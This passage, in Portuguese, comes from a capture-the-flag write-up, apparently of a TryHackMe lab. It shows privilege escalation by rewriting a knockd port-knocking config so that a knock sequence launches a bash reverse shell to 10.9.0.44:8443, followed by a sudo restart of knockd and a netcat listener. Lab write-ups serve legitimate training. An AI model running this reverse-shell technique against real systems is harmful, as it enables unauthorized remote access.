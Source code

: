 ```bash
        tcpflags    = syn
```
Novamente observando o arquivo, percebemos que logo após ele receber a sequência correta de requisições, ele roda um comando no `iptables`, iso significa que talvez possamos editar esta linha para inserir um payload de conexão reversa.
Após a edição do arquivo, ficou desta forma : 

```bash
dev1@incognito:~$ cat /etc/knockd.conf 
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /bin/bash -c 'bash -i >& /dev/tcp/10.9.0.44/8443 0>&1'
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
        tcpflags    = syn
```
Após a edição, utilizei a permissão do usuário dev1 para reiniciar o knockd e recarregar as configurações.

```bash
dev1@incognito:~$ sudo /etc/init.d/knockd restart
[ ok ] Restarting knockd (via systemctl): knockd.service.
```

Depois disso, tudo que precisei fazer foi setar um `netcat` na porta 8443 e fazer o knocking novamente.

<img src="/img/thm/thm-gamebuzz-11.png">
